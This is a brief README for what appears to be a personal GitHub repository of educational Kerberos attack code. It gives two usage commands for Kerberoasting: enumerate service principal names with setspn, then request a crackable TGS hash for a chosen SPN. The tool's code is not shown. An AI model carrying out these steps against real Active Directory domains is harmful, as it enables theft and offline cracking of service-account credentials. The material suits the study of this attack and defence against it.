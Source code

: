 # kerberos

This repo contains educational code I created to better undertand Kerberos. The repo now only includes code to use a Kerberoasting attack, but I might add new Kerberos attacks in the future.

# How to use

First search for an SPN you want to Kerberoast:  
```setspn Q */*```

Once you've found an SPN, use it as a parameter to get the TGS hash which you can use to crack:  
```Kerberos.exe MSSQLSERVER/SQL-Server.thalpius.demo:1433```
